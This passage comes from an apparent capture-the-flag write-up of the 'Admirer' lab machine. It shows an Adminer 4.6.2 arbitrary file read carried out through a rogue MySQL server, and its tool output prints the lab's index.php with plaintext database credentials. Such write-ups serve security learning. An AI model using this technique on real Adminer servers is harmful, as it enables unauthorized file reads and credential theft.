 We Google for "adminer 4.6.2 exploit" and found an article about a
[serious vulnerability in adminer tool](https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool)

We just need a [Rogue MySql Server](https://github.com/allyshka/Rogue-MySql-Server).
We launch it and start getting some files. We try `db_connect.php` but the file
was obviously replace by `adminer.php`. We can retrieve `adminier.php` just to
be sure that our exploit is working. Then we just retrieve `../index.php` which
contain the new creds for the database.

    :::text
    kali@kali:~/Rogue-MySql-Server$ php roguemysql.php
    Enter filename to get [db_connect.php] > ../index.php
    [.] Waiting for connection on 0.0.0.0:3306
    [+] Connection from 10.10.10.187:47566 - greet... auth ok... some shit ok... want file...
    [+] ../index.php from 10.10.10.187:47566:
    <!DOCTYPE HTML>
    <!--
            Multiverse by HTML5 UP
            html5up.net | @ajlkn
            Free for personal and commercial use under the CCA 3.0 license (html5up.net/license)
    -->
    <html>
            <head>
                    <title>Admirer</title>
                    <meta charset="utf-8" />
                    <meta name="viewport" content="width=device-width, initial-scale=1, user-scalable=no" />
                    <link rel="stylesheet" href="assets/css/main.css" />
                    <noscript><link rel="stylesheet" href="assets/css/noscript.css" /></noscript>
            </head>
            <body class="is-preload">

                    <!-- Wrapper -->
                            <div id="wrapper">

                                    <!-- Header -->
                                            <header id="header">
                                                    <h1><a href="index.html"><strong>Admirer</strong> of skills and visuals</a></h1>
                                                    <nav>
                                                            <ul>
                                                                    <li><a href="#footer" class="icon solid fa-info-circle">About</a></li>
                                                            </ul>
                                                    </nav>
                                            </header>

                                    <!-- Main -->
                                            <div id="main">
                                            <?php
                            $servername = "localhost";
                            $username = "waldo";
                            $password = "&<h5b~yK3F#{PaPB&dA}{H>";
                            $dbname = "admirerdb";

